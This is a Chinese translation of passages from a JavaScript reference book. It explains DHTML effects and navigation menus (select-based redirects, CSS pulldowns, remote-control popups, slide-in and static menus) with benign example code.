不幸的是，当你深入了解 DOM2 更冷僻的方面时，浏览器支持因厂商而异，差异显著。更糟糕的是，在 IE6 及更早版本中，你找不到这种方法的支持，而是需要使用 currentStyle 来计算对象的当前属性值。我们在这里展示一个同时适用于专有语法和 DOM 语法的例子。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>What's my style? Take 2</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<style type="text/css">
    p { text-decoration: underline !important }
</style>

</head>

<body>

<p id="para">This text always appears underlined, even when we try to override it
by setting its inline style</p>

<script type="text/javascript">
document.getElementById("para").style.textDecoration = "none";

alert("The paragraph's defined text decoration is: "+ 
    document.getElementById("para").style.textDecoration);

var p = document.getElementById("para");
if (p.currentStyle)
    alert("The paragraph's actual text decoration is: " + 
        p.currentStyle.textDecoration);
else {

```

var finalStyle = document.defaultView.getComputedStyle(p, "");

alert("段落实际的文本装饰是：" + 

finalStyle.getPropertyValue("text-decoration"));

}

</script>

</body>

</html>```

> **注意** 即使计算样式已实现，你仍可能发现浏览器的实现有些局限，且并非所有CSS2定义的样式都会被暴露。

在本节中，我们仅探讨了动态操作对象**style**属性的基本方面。基于对CSS的扎实理解，可以实现更多功能。现代浏览器实现DHTML的程度相当惊人：只需少量代码，即可即时构建、修改和拆解文档或其部分内容。接下来，我们将展示一些此类效果的示例。

### 应用的DHTML

本节简要介绍一些可能的DHTML效果。这些示例侧重于最大化的跨浏览器和向后兼容性，并使用了“构建跨浏览器DHTML库”一节中介绍的layerlib.js。虽然这些示例应在4.x代及以后的常见浏览器中运行，但由于裁剪区域的bug，你可能会发现某些示例在某些版本的Opera或其他浏览器中无法工作。

#### 简单过渡

使用定位的层，你可以随时隐藏和显示屏幕区域。想象一下，将彩色区域置于内容之上，并逐渐缩小这些区域。这样做会以有趣的方式揭示内容，类似于PowerPoint演示文稿。虽然在Internet Explorer中可以使用滤镜轻松创建此类过渡，但此效果应在大多数现代浏览器中工作。此效果的代码如下所示，其渲染效果如图15-6所示。


**图15-6：** 一个简单的DHTML页面过渡

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>擦除效果！</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<style type="text/css">
<!--
.intro { position:absolute;
         left:0px;
         top:0px;
         layer-background-color:red;
         background-color:red;
         border:0.1px solid red;
         z-index:10; }

#message { position: absolute;
            top: 50%;
            width: 100%;
            text-align: center;
            font-size: 48pt;
            color: green;
            z-index: 1;}
-->
</style>
<script type="text/javascript" src="layerlib.js"></script>
</head>
<body>
<div id="leftLayer" class="intro">&nbsp;</div>
<div id="rightLayer" class="intro">&nbsp;</div>
<div id="message">JavaScript的乐趣</div>

<script type="text/javascript">
<!--
var speed = 20;

/* 计算屏幕尺寸 */
 if (window.innerWidth)
      theWindowWidth = window.innerWidth;
 else if ((document.body) && (document.body.clientWidth))
      theWindowWidth = document.body.clientWidth;
 if (window.innerHeight)
      theWindowHeight = window.innerHeight;
 else if ((document.body) && (document.body.clientHeight))
      theWindowHeight = document.body.clientHeight;

     /* 处理IE中DOCTYPE切换的变通方法 */
 if (document.documentElement  && document.documentElement.clientHeight &&
document.documentElement.clientWidth)
    {
      theWindowHeight = document.documentElement.clientHeight;
      theWindowWidth = document.documentElement.clientWidth;
    }

/* 用层覆盖屏幕 */
  setWidth('leftLayer', parseInt(theWindowWidth/2));
  setHeight('leftLayer', theWindowHeight);
  setX('leftLayer',0);

setWidth('rightLayer', parseInt(theWindowWidth/2));
setHeight('rightLayer', theWindowHeight);
setX('rightLayer', parseInt(theWindowWidth/2));

clipright = 0;
clipleft = parseInt(theWindowWidth/2);

function openIt()
{
    window.scrollTo(0,0);
    clipright+=speed;
    setClip('rightLayer',0,theWindowWidth, theWindowHeight,clipright);

    clipleft-=speed;
    setClip('leftLayer',0,clipleft,theWindowHeight,0);

    if (clipleft<0)
        clearInterval(stopIt)
}

function doTransition()
{
    stopIt=setInterval("openIt()",100);
}
window.onload = doTransition;
//-->
</script>
</body>
</html>
```

此示例中值得注意的一点是**Window**对象的**setInterval(code, time)**方法，它用于执行动画。此方法的基本用法（在[第12章]中已完整介绍）是每隔*time*毫秒执行一次指定的字符串*code*。要关闭此间隔，你需要清除其句柄。因此，如果你有**anInterval = setInterval("alert('hi')", 1000)**，你可以使用**clearInterval(anInterval)**来关闭那个烦人的警报。

#### 定向悬停（第二部分）

我们在本章前面看到，悬停效果如何揭示屏幕上包含文本描述的区域。这种形式的定向悬停，通常称为*动态作用域注释*，可以在不使用CSS的情况下通过图像实现，但借助DOM和CSS定位的项目，我们可能有一个更优雅的解决方案。例如，查看此处呈现的简单作用域注释代码。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>CSS悬停消息</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<style type="text/css">
<!--
#buttons {position: absolute; top: 10px;
         background-color: yellow;width: 20%;}
#description {position: absolute;top: 10px;left: 40%;}
-->
</style>
<script src="layerlib.js" type="text/javascript"></script>
</head>
<body>
<div id="buttons">
<a href="about.html"
    onmouseover="setContents('description',
        '探索Democompany背后的历史和管理。');"
    onmouseout="setContents('description', '&nbsp;');">关于</a>
<br /><br />
<a href="products.html"
    onmouseover="setContents('description',
                        '如果您喜欢我们的圆顶，您会爱上我们的机器人！');"
    onmouseout="setContents('description', '&nbsp;');">产品</a>
</div>

<div id="description">&nbsp;</div>

</body>

</html>
```

> **注意** *没有不换行空格（&nbsp;），你可能会发现描述层在HTML下会折叠，从而无法实例化所需的对象，进而无法通过JavaScript进行操作。*

#### 通用动画

本章最后一个示例展示了一些使用JavaScript的简单动画。我们让对象上下移动到特定坐标，以及左右移动。基本思路是确定对象的当前位置，然后使用我们的图层库中的**setX()**和**setY()**函数，让对象在屏幕上逐步移动。首先，我们添加简单的**getX(layerName)**和**getY(layerName)**函数，这些函数返回传递的层的坐标。这些例程如下所示。

```
/* 返回名为layerName的层的X坐标 */

function getX(layerName)

{

    var theLayer = getElement(layerName);

    if (layerobject)
        return(parseInt(theLayer.left));
    else
        return(parseInt(theLayer.style.left));

}


/* 返回名为layerName的层的Y坐标 */

function getY(layerName)

{

    var theLayer = getElement(layerName);
```

```
if (layerobject)
    return (parseInt(theLayer.top));
else
    return (parseInt(theLayer.style.top));
}
```

接下来，我们需要定义一些变量来指示每次移动的像素数（*step*）以及动画帧的运行速度（*framespeed*）。

```
/* 设置动画速度和步长 */
var step = 3;
var framespeed = 35;
```

我们还应该为移动的对象定义一些边界，使其不会撞到将控制动画对象的窗体控件。

```
/* 设置动画边界 */
var maxtop = 100;
var maxleft = 100;
var maxbottom = 400;
var maxright = 600;
```

接下来，我们将添加例程，使对象在适当的方向上移动，直到达到边界。基本思路是探测对象的当前坐标，如果尚未到达边界，则通过加或减去*step*的值将其移动一点更近，然后设置一个计时器在几毫秒后触发以继续移动。函数**right()**就是一个例子。在这种情况下，它移动一个名为“ufo”的区域，直到达到*maxright*定义的右边界。

```
function right()
{
    currentX = getX('ufo');

    if (currentX < maxright)
    {
        currentX+=step;
        setX('ufo', currentX);
        move=setTimeout("right()", (1000/framespeed));
    }
}
```


### 实用的 DHTML

实际上，DHTML 效果应当谨慎使用。首先，与定位对象及操作其剪切区域相关的 JavaScript 漏洞很多。必须采用[第 22 章](https://www.example.com)讨论过的谨慎测试和防御性编码实践。其次，正如我们在翻转效果中看到的，许多效果可以通过 JavaScript 之外的技术实现，例如 CSS 或 Flash。动画尤其引发诸多问题。虽然你可以用 JavaScript 实现动画，但可能会发现动画出现频闪或抖动。若不进行相当复杂的编程，你无法在 JavaScript 下实现完美的动画效果。然而，通过使用 Flash 甚至简单的动画 GIF，你可以实现一些非常有趣的效果——而且通常复杂度要低得多。我们非常推崇为任何特定解决方案选择最合适的技术。对于花哨的效果，合适的解决方案很少是 JavaScript。一条很好的经验法则是：为效果而效果的做法不值得费力。JavaScript 应当用于为网站增加**功能**，而非浮华装饰。

如果你执意要使用 JavaScript，也可以实现许多有趣的效果。[www.javascriptref.com](http://www.javascriptref.com) 支持网站以及众多在线 JavaScript 库网站（如 DynamicDrive [www.dynamicdrive.com](http://www.dynamicdrive.com)）上都提供了一些示例。

### 小结

本章介绍了 **Image** 对象的一些常见应用，以及通常与 JavaScript 相关的其他视觉效果。我们看到，虽然这些效果中有许多实现起来相对容易，但浏览器之间的脚本和样式表差异要求采用防御性编程技术，以防止在不支持所需技术的浏览器中抛出错误。DHTML 效果，如动画、可见性变化和移动，展示了编写跨浏览器兼容代码所需付出的巨大努力。虽然本章演示的所有效果都相对简单，但开发者未必需要将它们添加到网站中。

## 第 16 章：导航与网站访问体验改善

JavaScript 可以通过多种方式提升网站的可用性。我们在前面的章节中已经看到了一些示例，涵盖了表单验证、窗口操作以及交互式基础功能，如图层移动和可见性。但现代浏览器的 DHTML 能力不仅能实现翻转效果和动画；它们还常被用于为用户提供类似 GUI 的导航辅助工具和任务栏。这类增强功能背后的理念是，为用户呈现一个模拟典型计算机程序熟悉界面的网站界面。

用 JavaScript 增强网站导航的现实比你最初预期的要复杂得多。许多网站"改进"到头来过于反直觉、臃肿或编写低劣，没什么实际用处。事实上，这类网站增强往往是为了展示花哨的 DHTML 效果，而非改善用户体验。即使是以可用性为出发点来实现，向网站添加复杂的 JavaScript 也可能是得不偿失的。这样做会增加网站重组或浏览器用户群体变化时所需完成的工作量。编写用于网站增强的健壮代码，需要比编写"纯"(X)HTML 更高的技能、知识和测试水平。很可能，与自行开发相比，使用经过充分测试的公开 JavaScript 库来实现花哨的 DHTML 控件，对你会更有意义。

### 实现问题

即使是最简单的 DHTML 应用，也可以通过多种方式实现。本章的示例绝不是实现所需功能的唯一途径。样式属性可以在文档头部定义或链接，也可以通过个别标签的 **style** 属性内联包含。JavaScript 代码可以作为外部库链接到页面中，也可以借助事件处理程序属性包含在页面本身之中。由程序员选择适合当前任务的方法，并应对现存的众多浏览器漏洞。

由于许多网站改进任务涉及的代码量往往很大，软件工程考量应在设计过程中发挥作用。当代码组织得合理时，拥有众多菜单和大量页面的大型网站会易于管理得多。而当代码由他人编写、维护和分发时，管理起来甚至更加容易！

假设你想在网站上使用分层菜单系统。更改这些菜单的条目以反映新的网站组织，所需时间将主要取决于菜单的实现方式。如果所有代码都内联于各个页面中，进行此类更改可能是一项非常繁重的任务。正因如此，大型专业网站和库的 DHTML 编码人员在考虑用户的易用性之外，几乎同样重视*程序员*的使用便利性。

在本章中，我们将了解一些网站中使用的基本 JavaScript 和 DHTML 导航脚本。了解这类应用的构建方式，将让你洞悉一些常见技巧和窍门，但也鼓励读者访问 [www.dynamicdrive.com](http://www.dynamicdrive.com) 和 [www.webreference.com/dhtml](http://www.webreference.com/dhtml) 等网站，查看更多 JavaScript 导航辅助工具的示例。

### 下拉菜单

最常见的导航辅助工具之一是*选择*菜单。这种简单的下拉菜单的大部分功能都源于 (X)HTML 的 `<select>` 标签。该标签包含一系列 `<option>`，为用户提供导航或任务选择。绑定到 `<select>` 标签的事件处理器会在用户做出选择时触发相应的操作，立即将用户传送到所选页面。

下拉菜单就像典型的应用程序菜单一样，倾向于放置在页面顶部。虽然与向用户一次性展示所有选项的传统导航栏相比，它们节省了大量空间，但这是通过一次只显示一个链接而隐藏其余所有链接来实现的。虽然这可能是完全可以接受的，但这意味着下拉菜单现在有两种用途：一种是允许用户导航到他们选择的页面，另一种是作为传统的表单字段。如果使用环境不明确，有些用户可能会对这种双重用途感到困惑。用于导航的下拉菜单不应放置在用于数据录入的表单内，并且应始终有清晰的标签。

下面的示例说明了这个概念。*图 16-1* 展示了结果。


**图 16-1：** 一个基本的下拉菜单

```html
<script type="text/javascript">
<!--

function redirect(menu)
{
  var choice = menu.selectedIndex;
  if (choice != 0)
    window.location = menu.options[choice].value;
}
// -->
</script>

<form name="navform" id="navform" method="post" action="redirector.cgi">
<strong>Site Selector</strong><br />
<select name="sites" id="sites" onchange="redirect(this);">
<option value="" selected="selected">Select a site to visit</option>
<option value="http://news.google.com">Google News</option>
<option value="http://news.yahoo.com">Yahoo! News</option>
<option value="http://www.alternet.org">AlterNet</option>
<option value="http://allafrica.com">AllAfrica</option>
</select>
<noscript>
<input type="submit" value="Go" />
</noscript>
</form>
```

这个例子中有几点值得注意。首先，请注意示例在 **<noscript>** 标签内包含了一个“前往”按钮来触发页面加载。该按钮会提交到服务器端 CGI 程序，该程序解析菜单选择并相应地重定向用户。包含这样一个按钮很重要，以防用户使用不支持或禁用 JavaScript 的浏览器访问网站。即使启用了 JavaScript，包含一个“前往”按钮也常常很方便。虽然自动页面加载非常快，但它们有时是一种非常灵敏的导航形式。用户很容易鼠标操作失误，尤其是在一个很长的下拉菜单上，意外地触发页面加载。

上一个例子中另一个值得讨论的方面是，菜单默认选中了一个假条目。如果这个条目没有被默认选中，第一个导航条目将被选中，因此用户将无法访问 Google News，因为 **onchange** 处理器仅在菜单选项*更改*时才会触发。

一个类似但未解决的问题是：如果用户选择一个项目进行导航，访问该页面，然后点击“后退”按钮，菜单将默认显示他们之前的菜单选择。因为 **onchange** 仅在所选选项更改时触发，如果用户再次进行相同的选择，浏览器将不会导航到该页面。这个问题也出现在带有分隔符的菜单中，所以我们接下来将在那个上下文中讨论它。

### 改进的下拉菜单

通常菜单包含标记选择之间分隔符的 **<option>**，或者包含表示各组选项性质的标题。考虑一下如果用户拉开菜单并选择一个分隔符会发生什么。菜单不应该像应用程序中的传统菜单一样重置到顶部吗？出于某种原因，大多数菜单并不会这样做。其次，考虑这样一种情况：用户确实选择了一个有效的选择并被送到一个新页面。一旦到了那个页面，用户点击“后退”，却发现下拉菜单选中了他们刚刚做的选择。突然决定他们之前选择的页面是正确的，他们要么必须重新加载页面来重置下拉菜单，要么选择一个错误的选项再试一次（在家试试看！）。

这两种情况下的问题在于，当用户重新加载页面或选择一个非活动项目（如分隔符）时，菜单没有被重置。以下示例解决了这些问题，并为我们的下拉导航增加了一些外观增强。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Select Navigation</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<style type="text/css">
<!--
.nochoice {color: black;}
.choice   {color: blue;}
-->
</style>
<script type="text/javascript">
<!--
function redirect(pulldown)
{
   var newLocation = pulldown[pulldown.selectedIndex].value;
   if (newLocation != "")
      self.location = newLocation;
}

function resetIfBlank(pulldown)
{
   var possibleNewLocation = pulldown[pulldown.selectedIndex].value;
   if (possibleNewLocation == "")
      pulldown.selectedIndex = 0;   // reset to start since no navigation
}
//-->
</script>
</head>
<body>
<form name="navform" id="navform" action="redirector.cgi" method="post">
<b>Favorite sites:</b>
<select name="menu" id="menu" onchange="resetIfBlank(this);">
<option value="" class="nochoice" selected="selected">Choose your site</option>
<option value="" class="nochoice"></option>
<option value="" class="nochoice">Search sites</option>
<option value="" class="nochoice">------------------------------------</option>
<option value="http://www.google.com" class="choice">Google</option>
<option value="http://www.yahoo.com" class="choice">Yahoo!</option>
<option value="http://www.teoma.com" class="choice">Teoma</option>
<option value="" class="nochoice"></option>
<option value="" class="nochoice">E-commerce</option>
<option value="" class="nochoice">------------------------------------</option>
<option value="http://www.amazon.com" class="choice">Amazon</option>
<option value="http://www.buy.com" class="choice">Buy.com</option>
<option value="" class="nochoice"></option>
<option value="" class="nochoice">Demos</option>
<option value="" class="nochoice">------------------------------------</option>
<option value="http://www.democompany.com" class="choice">DemoCompany</option>
</select>
<input type="submit" value="Go"
        onclick="redirect(document.navform.menu); return false;" />
</form>
<script type="text/javascript">
<!--
document.navform.menu.selectedIndex = 0;
//-->
</script>
</body>
</html>
```

输出结果显示在[图 16-2](#)中。通过使用这个示例可以发现，它不仅会在用户选择“非选项”时重置自身，而且在访问某个选项后点击“后退”按钮时，菜单会重置到其初始状态（这要归功于将 **selectedIndex** 设置为 **0** 的 `<script>`）。


**图 16-2：** 一个带有分隔符的改进下拉菜单

HTML 下拉菜单作为导航设备，代表了对传统 GUI 设计的突破，因此关于它们的效率或可用性知之甚少。与其使用一个重新利用的表单小部件，我们可能更希望构建一个更像 GUI 的菜单——借助 JavaScript 和 CSS，我们确实可以做到这一点。

## DHTML 菜单

许多 JavaScript 菜单系统的目标是模拟“真实” GUI 的功能，例如 Windows、MacOS 或 Linux 的 KDE。下拉菜单提供了一种方便且熟悉的方式，为用户提供选择列表。这些选择通常是指向包含产品和公司信息的页面的链接，或者是触发页面中某种操作的链接。到目前为止，DHTML 菜单最常见的用途是增强导航功能。

请注意，在 JavaScript 中实现复杂的菜单系统需要高水平的技能和知识。这一过程要求页面中的 HTML、CSS、事件处理以及文档对象的动态操作在各种浏览器下协同工作。由于涉及这么多交互技术，许多微妙的细节往往被忽视，特别是在事件处理方面。如果在测试过程中没有发现这些疏漏，它们可能会让你的用户感到沮丧，以至于不再访问你的网站。与任何 DHTML 任务一样，你应该计划花费大量时间在各种浏览器下测试你的代码。一个运行不正常的菜单系统比没有菜单更糟糕。

在本节中，我们介绍一些在网站中常见的基于 JavaScript 的菜单类型，但这绝非详尽无遗。本章提到的 DHTML 网站，特别是 www.dynamicdrive.com、www.dhtmlcentral.com 和 www.webreference.com，都是灵感和代码的绝佳来源。我们将提供一些在这些网站上可以找到的示例，以了解如何创建其他形式的菜单。

## 类似应用程序的菜单

本书第一版包含一个详细的演示，展示了如何在 JavaScript 中构建模仿操作系统菜单外观和风格的应用程序式菜单。虽然这个示例具有指导意义，但它相当复杂，并不适合在“真实”世界中使用。在本版中，我们纯粹作为教学工具呈现一个简单的菜单系统。

基于 JavaScript 的菜单系统的一个复杂之处是设置和适当应用 CSS。例如，在创建任何类型的菜单时，我们通常依赖 `<div>` 标签来容纳我们的各种选择。

```html
<div id="menu3" class="menu">
    <div class="menuHead">Book Related Sites</div>
    <div id="menu3choices" class="menuChoices">
        <a href="http://www.javascript.com">JavaScriptRef</a><br />
        <a href="http://www.w3c.org">W3C</a><br />
        <a href="http://www.pint.com">PINT</a><br />
    </div>
</div>
```

在这种情况下，我们区分“menuHead”（它将显示为菜单的触发器）和各种选择，然后我们将选择包含在另一个 `<div>` 标签中以用于样式和脚本目的。现在我们可以将脚本关联到鼠标悬停事件来隐藏和显示菜单。

```html
<div id="menu3" class="menu" onmouseover="show('menu3');"
onmouseout="hide('menu3');">
```

隐藏和显示例程使用 CSS 的 **visibility** 属性来关闭和打开我们的菜单。注意，我们定义了一个变量 **DOMCapable**，以防止在浏览器无法处理时触发菜单功能。

```javascript
(document.getElementById ? DOMCapable = true : DOMCapable = false);
```


function hide(menuName)
{
  if (DOMCapable)
  {
    var theMenu = document.getElementById(menuName+"choices");
    theMenu.style.visibility = 'hidden';
  }
}

function show(menuName)
{
  if (DOMCapable)
  {
    var theMenu = document.getElementById(menuName+"choices");
    theMenu.style.visibility = 'visible';
  }
}

完整示例如图16-3所示。


图16-3：一个简单的DHTML下拉菜单

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Simple CSS Based Pulldowns</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<style type="text/css">

<!--

    /* set the menu style */

    .menuHead { font-weight: bold; font-size: larger;  background-color: #A9A9A9;}

    .menuChoices { background-color: #DCDCDC; width: 200px;}

    .menu a {color: #000000; text-decoration: none;}

    .menu a:hover {text-decoration: underline;}

    /* position your menus */

#menu1 {position: absolute; top: 10px; left: 10px; width: 200px;}
#menu2 {position: absolute; top: 10px; left: 210px; width: 200px;}
#menu3 {position: absolute; top: 10px; left: 410px; width: 200px;}

-->

</style>

<script type="text/javascript">

<!--
/* we'll only allow DOM browsers to simplify things*/
(document.getElementById ? DOMCapable = true : DOMCapable = false);

function hide(menuName)
{
	if (DOMCapable)
	{
		var theMenu = document.getElementById(menuName+"choices");
		theMenu.style.visibility = 'hidden';
	}
}

function show(menuName)
{
	if (DOMCapable)
	{
		var theMenu = document.getElementById(menuName+"choices");
		theMenu.style.visibility = 'visible';
	}
}

//-->

</script>

</head>

<body>

<div id="menu1" class="menu" onmouseover="show('menu1');"
    onmouseout="hide('menu1');">
    <div class="menuHead">Search Sites</div>
        <div id="menu1choices" class="menuChoices">
            <a href="http://www.google.com">Google</a><br />
            <a href="http://www.yahoo.com">Yahoo</a><br />
            <a href="http://www.teoma.com">Teoma</a><br />
            <a href="http://www.msn.com">MSN</a><br />
            <a href="http://www.dmoz.org">DMOZ</a><br />
        </div>
</div>

<div id="menu2" class="menu" onmouseover="show('menu2');"
    onmouseout="hide('menu2');">
    <div class="menuHead">E-commerce Sites</div>
        <div id="menu2choices" class="menuChoices">
            <a href="http://www.google.com">Amazon</a><br />
            <a href="http://www.ebay.com">Ebay</a><br />
            <a href="http://www.buy.com">Buy.com</a><br />
        </div>
</div>

<div id="menu3" class="menu" onmouseover="show('menu3');"
    onmouseout="hide('menu3');">
    <div class="menuHead">Book Related Sites</div>
        <div id="menu3choices" class="menuChoices">
            <a href="http://www.javascript.com">JavaScriptRef</a><br />
            <a href="http://www.w3c.org">W3C</a><br />
            <a href="http://www.pint.com">PINT</a><br />
        </div>
</div>

<script type="text/javascript">
<!--
/* Don't hide menus for JS off and older browsers */

if (DOMCapable)
{
    hide("menu1");
    hide("menu2");
    hide("menu3");
}
//-->
</script>

</body>
</html>
```

给出的示例在一定程度上是降级的，即旧版浏览器仍然会看到所有选项。我们可以扩展脚本，使其在使用上一章讨论的layerlib.js的众多DHTML生成浏览器下工作。然后我们就可以开始处理浏览器在CSS和JavaScript方面的各种怪癖。然而，实现一个完全可靠的菜单将占用数十页的篇幅，并且更多地关注于次要的浏览器恼人问题和变通方法，而不是真正有价值的JavaScript编码实践。我们建议您研究我们给出的菜单，理解其概念后，再尝试自行编写菜单脚本之前，先了解一下Web上一些广泛可用的JavaScript库，例如HierMenus (http://www.webreference.com/dhtml/hiermenus/)。

### 遥控菜单

遥控菜单是控制主浏览器窗口行为的弹出窗口。第12章介绍了由一个窗口操作另一个窗口的基础知识，同样的技术也适用于此。如果需要向用户提供大量复杂功能，这类菜单通常很有用。通常屏幕空间很珍贵，一个出现在主内容窗口中的大型操作菜单可能会不必要地使界面显得杂乱。

其基本思想是从主内容窗口通过`window.open()`打开一个新的控制窗口。遥控窗口将包含按钮、链接或操作菜单，并通过其`window.opener`引用在主浏览器窗口中执行必要的功能。您可能会发现，在用户在控制面板中执行操作后，调用被控窗口的`focus()`方法很有用。这样可以改善可用性，使用户无需手动将焦点切换到内容窗口。此外，包含遥控菜单的窗口通常是“裸”打开的，即没有滚动条、浏览器按钮或地址栏。要以这种方式打开窗口，可以将空字符串作为第三个参数传递给**`window.open()`**，或者使用[第12章](#)中讨论的配置字符串选项来关闭不需要的功能。

具体来说，假设您希望在内容窗口中显示几个非常大的图像之一，但不希望HTML控件碍事。您可以使用以下主内容窗口（我们称之为“imageviewer.html”），这是用户最初加载的：

#### 文件：imageviewer.html

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Image Display Window</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>


<script type="text/javascript">

var remoteControlURL = "remotecontrol.html";

var remoteFeatures = "height=150,width=400,location=no,";

remoteFeatures += "menubar=no,scrollbars=no,status=no,toolbar=no";

var remoteControl =

    window.open(remoteControlURL, "controlWindow", remoteFeatures);

</script>

</body>

</html>
```

现在您需要此窗口加载的遥控窗口（remotecontrol.html）。它将包含在上述文档中设置`displayedImage.src`的JavaScript代码。

#### 文件：remotecontrol.html

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Remote Control</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function loadImage(which)
{
    var contentWindowURL = "imageviewer.html";
    if (!window.opener || window.opener.closed)
    {
        alert("Main window went away. Will respawn it.");
        window.open(contentWindowURL, "_blank");
        window.close();
        return;
    }
    window.opener.document.images["displayedImage"].src = which;
    window.opener.focus();
}
//-->
</script>
</head>
<body>
<h3>Select an Image to Display</h3>
<form action="#" onsubmit="return false;" method="get">
<input type="button" value="Image 1" onclick="loadImage('image1.jpg');" />
&nbsp;
<input type="button" value="Image 2" onclick="loadImage('image2.jpg');" />
&nbsp;
<input type="button" value="Image 3" onclick="loadImage('image3.jpg');" />
```


关于这个远程控制脚本，最重要的一点是它在使用主内容窗口之前，会采取谨慎的措施来确保该窗口确实存在。用户可能意外关闭了窗口，在这种情况下，该脚本会重新加载 imageviewer.html 并关闭自身。你可以在图 16-4 中看到这个脚本的实际运行效果。


**图 16-4**：远程控制窗口为你提供了一种将控件移出主浏览器窗口的方式。

使用单独的窗口作为菜单并不是将菜单功能移出主浏览器窗口的唯一方式。滑入式菜单也常常适合用于此任务。

### 滑入式菜单

滑入式菜单是一个包含菜单项的层，它部分隐藏在屏幕之外，通常在左侧。只有该层的一个标签或窄窄的垂直条对用户可见。当用户通过鼠标悬停或点击暴露的部分来激活菜单时，菜单会平滑地滑入页面。当用户将鼠标移开菜单时，该层会滑回到屏幕外的原始位置。

以下代码展示了滑入式菜单通常采用的基本技术实现。其思路是最初将层放置在屏幕左侧之外，然后在鼠标悬停在其上时逐步将菜单移入屏幕。一个定时器以固定间隔唤醒滚动函数，在此期间菜单会向右移动一小段距离。一旦达到预设的菜单位置，定时器就会被清除以停止滚动。当用户将鼠标移开菜单时，滚动函数会以固定间隔被调用，将层移回其原始位置。请注意，你的用户可能会觉得在激活时菜单直接显示在屏幕上（而不是滑入）会更方便。

虽然以下代码是为支持现代 DOM 的浏览器编写的，但你可以使用上一章和网上提供的标准跨浏览器 DHTML 来编写跨浏览器的滑动效果。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Slide-in Menu Example</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<style type="text/css">

<!--
.menu { background: blue; padding: 0px; margin: 0px;
        border-style: solid; border-width: 2px;
        border-color: lightblue; position: absolute;
        text-align: left; width: 150px; top: 80px;
        z-index: 100; }
.menuitem { color: white; position: relative;
            display: block; font-style: normal; margin: 0px;
            padding: 2px 15px 2px 10px; font-size: smaller;
            font-family: sans-serif; font-weight: bold;
            text-decoration: none; }
a.menuitem:hover { background-color: darkblue; }
-->
</style>
<script type="text/javascript">
<!--
var leftmost = -120;
var rightmost = 5;
var interval = null;
var DOMCapable;
document.getElementById ? DOMCapable = true : DOMCapable = false;
function scrollRight(menuName)
{
  var leftPosition;
  if (DOMCapable)
    {
      leftPosition = parseInt(document.getElementById(menuName).style.left);
      if (leftPosition >= rightmost)
      {
        // if the menu is already fully shown, stop scrolling
        clearInterval(interval);
        return;
      }
      else
      {
        // else move it 5 more pixels in
        leftPosition += 5;
        document.getElementById(menuName).style.left = leftPosition+"px";
      }
    }
}
function scrollLeft(menuName)
{
  if (DOMCapable)
  {
     leftPosition = parseInt(document.getElementById(menuName).style.left);
     if (leftPosition <= leftmost)
     {
      // if menu is fully retracted, stop scrolling
      clearInterval(interval);
      return;
     }
      else
      {
       // else move it 5 more pixels out
       leftPosition -= 5;
       document.getElementById(menuName).style.left = leftPosition+"px";
      }
    }
}
function startRightScroll(menuName)
{
  clearInterval(interval);
  interval = setInterval('scrollRight("' + menuName + '")', 30);
}
function startLeftScroll(menuName)
{
  clearInterval(interval);
  interval = setInterval('scrollLeft("' + menuName + '")', 30);
}
//-->
</script>
</head>
<body onload="document.getElementById('slider').style.left=leftmost+'px';">
<!-- the hidden menu -->
<div class="menu" id="slider"
 onmouseover="startRightScroll('slider');"
 onmouseout="startLeftScroll('slider');">
 <h3 class="menuitem"><u>Our Products</u></h3>
 <a class="menuitem" href="widgets.html">Widgets</a>
 <a class="menuitem" href="swidgets.html">Super Widgets</a>
 <a class="menuitem" href="sprockets.html">Sprockets</a>
 <a class="menuitem" href="vulcans.html">Vulcans</a>
</div>
<h1>Welcome to our company</h1>
</body>
</html>
```

菜单的实际运行效果如[图 16-5]所示。


**图 16-5**：滑入式菜单的实际运行效果

### 静态菜单

如果你在包含超过一屏内容的页面中加入菜单，你可能会考虑使用静态菜单。*静态菜单*是指无论用户如何滚动页面，它始终出现在浏览器窗口中同一位置的菜单。正如你所能想象的，实现静态菜单与实现"普通"菜单类似，不同之处在于菜单会固定在屏幕上而不随用户滚动而移动。虽然在某些现代浏览器中可以捕获滚动事件，但通过简单地应用 `setInterval()` 就能轻松实现跨浏览器的静态菜单。其思路是按照固定（较短）的间隔"唤醒"重新定位代码。

